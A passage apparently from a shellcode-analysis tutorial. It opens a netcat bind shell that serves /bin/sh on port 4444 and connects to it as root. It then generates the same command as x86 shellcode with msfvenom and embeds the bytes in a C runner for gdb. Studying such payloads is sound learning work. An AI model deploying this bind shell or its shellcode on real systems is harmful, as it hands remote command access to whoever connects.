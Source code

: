 ## Testing the Command
```console
root# nc -nlp 4444 -e "/bin/sh" &
[1] 9119
root# netstat -tnalp | grep nc
tcp   0.0.0.0:4444    0.0.0.0:*  LISTEN  9119/nc
```
+ The command successfully ran and was given the process ID 9119 and the job ID of 1.  
+ The process `nc` is successfully listening on all interfaces `0.0.0.0`, on TCP port `4444`.  

Since the job is running in the background, we can use the same terminal window to access our /bin/sh listening on all interfaces, by using netcat to connect to the localhost interface (127.0.0.1) on TCP port 4444.  

### Connecting to Netcat Shell
```console
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```
+ We successfully are able to run commands with our netcat, bind shell.  

## Creating the Shellcode with msfvenom
Now we will use msfvenom to create a shellcode to execute our netcat, bind shell command. The output will be in C so we can easily add it to our shellcode.c program.  

```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c
Payload size: 63 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x1c\x00\x00\x00\x6e"
"\x63\x20\x2d\x6e\x6c\x70\x20\x34\x34\x34\x34\x20\x2d\x65\x20"
"\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x20\x26\x00\x57\x53\x89"
"\xe1\xcd\x80";
```

## Setup for gdb

#### Shellcode.c

```c
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x1c\x00\x00\x00\x6e"
"\x63\x20\x2d\x6e\x6c\x70\x20\x34\x34\x34\x34\x20\x2d\x65\x20"
"\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x20\x26\x00\x57\x53\x89"
"\xe1\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
+ Added shellcode to this C host program so we can examine with gdb.
